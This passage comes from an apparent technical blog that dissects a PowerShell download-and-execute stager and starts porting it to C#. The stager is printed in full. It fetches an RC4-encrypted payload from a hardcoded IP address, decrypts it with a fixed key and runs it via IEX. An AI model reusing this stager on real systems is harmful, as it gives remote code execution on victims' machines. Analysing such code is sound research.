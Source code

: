 Next let's remove the IF part, for simplification, and focus on the rest of the code, I also organized it a little bit, so we can group the parts that work together and explain each one separately.
 
```
[System.Net.ServicePointManager]::Expect100Continue=0;
 
$wc=New-Object System.Net.WebClient;
$u='Mozilla/4.0 (compatible; MSIE 6.0;Windows NT 5.1)';
$wc.Headers.Add('User-Agent',$u);
$wc.Headers.Add("Accept","image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*");
$wc.Headers.Add("Accept-Language","en-en");
$wc.Headers.Add("Cookie","session=pRWdj48/Lf2wTAhO2Y7BXpRHz6o=");
 
$wc.PRoxY=[System.Net.WebRequest]::DefaultWebProxy;
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
$Script:Proxy = $wc.Proxy;
 
$ser='http://192.168.6.119:80';
$t='/CWoNaJLBo/VTNeWw11212/';
$data=$wc.DownloadData($ser+$t);
 
$K=[System.Text.Encoding]::ASCII.GetBytes('fdcece0a22c10f83dccc8f17c95a33d4');
$iv=$data[0..3];
$data=$data[4..$data.Length];
 
$R={$D,$K=$ARGs;
$S=0..255;
0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNT])%256;
$S[$_],$S[$J]=$S[$J],$S[$_]};
$D|%{$I=($I+1)%256;
$H=($H+$S[$I])%256;
$S[$I],$S[$H]=$S[$H],$S[$I];
$_-bXOr$S[($S[$I]+$S[$H])%256]}};
 
-Join[Char[]](& $R $data ($IV+$K))|IEX
```

Now we need to convert each part of this code into C#. I enjoyed a lot learning some .Net classes while doing this research. Let's start line by line.
 
# From PowerShell to C#.
 
The **System.Net.ServicePointManager.Expect100Continue** in simple words, this property if true, the client requests that use the PUT and POST methods will add an Expect header to the request. For more information check the [link](https://msdn.microsoft.com/en-us/library/system.net.servicepointmanager.expect100continue(v=vs.110).aspx)
 
```
# PowerShell avoid sending Expect 100 Header 
[System.Net.ServicePointManager]::Expect100Continue=0;
 
// C# avoid sending Expect 100 Header 
System.Net.ServicePointManager.Expect100Continue = false;
```
